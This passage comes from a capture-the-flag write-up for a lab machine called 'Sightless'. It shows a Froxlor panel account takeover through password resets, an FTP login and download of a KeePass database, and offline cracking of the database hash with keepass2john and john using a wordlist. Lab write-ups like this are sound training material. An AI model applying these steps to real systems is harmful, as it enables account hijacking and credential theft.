 Looking at the Resources -> Customers area, it seems we have one user `john`. Thinking back to earlier, he was the account that had `sudo` rights, so maybe there's something we can do with this.

![sightless5](/images/sightless5.png)

We can edit John's account, and change his password. Let's log back into the Froxlor service with these new credentials. He has an FTP account, which we can also change the password for.

![sightless6](/images/sightless6.png)

### FTP Server

Lets connect to the FTP server using John's username, `web1` and the newly changed password.

```sh
┌──(pl4stic㉿kali)-[~/htb/sightless]
└─$ lftp sightless.htb
lftp sightless.htb:~> login web1 Pass11!!
lftp web1@sightless.htb:~> set ssl:verify-certificate no
lftp web1@sightless.htb:~> ls
drwxr-xr-x   3 web1     web1         4096 May 17  2024 goaccess
-rw-r--r--   1 web1     web1         8376 Mar 29  2024 index.html
lftp web1@sightless.htb:/> cd goaccess
lftp web1@sightless.htb:/goaccess> ls
drwxr-xr-x   2 web1     web1         4096 Aug  2  2024 backup
lftp web1@sightless.htb:/goaccess> cd backup
lftp web1@sightless.htb:/goaccess/backup> ls
-rw-r--r--   1 web1     web1         5292 Aug  6  2024 Database.kdb
lftp web1@sightless.htb:/goaccess/backup> get Database.kdb
5292 bytes transferred                         
lftp web1@sightless.htb:/goaccess/backup>
```

And we've found a Keepass database... I bet there's some good stuff in there.

```sh
┌──(pl4stic㉿kali)-[~/htb/sightless]
└─$ file Database.kdb 
Database.kdb: Keepass password database 1.x KDB, 8 groups, 4 entries, 600000 key transformation rounds
```

#### Hash crack

```sh
┌──(pl4stic㉿kali)-[~/htb/sightless]
└─$ keepass2john Database.kdb > keepass-hash.txt
Inlining Database.kdb
```

```sh
┌──(pl4stic㉿kali)-[~/htb/sightless]
└─$ john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt /home/pl4stic/htb/sightless/keepass-hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 600000 for all loaded hashes
Cost 2 (version) is 1 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bulldogs         (Database.kdb)     
1g 0:00:00:16 DONE (2025-02-11 10:02) 0.06238g/s 71.86p/s 71.86c/s 71.86C/s kucing..summer1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
